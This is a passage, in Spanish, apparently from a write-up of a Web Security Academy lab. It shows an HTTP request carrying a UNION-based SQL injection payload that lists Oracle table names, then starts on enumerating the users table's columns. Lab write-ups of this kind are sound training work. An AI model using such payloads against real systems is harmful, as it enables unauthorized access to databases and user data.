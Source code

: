 Se procede a retornar los nombres de las tablas:

```
GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La peticion previa retorna lo siguiente:

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se procede a revisar las columnas para la tabla de usuarios:
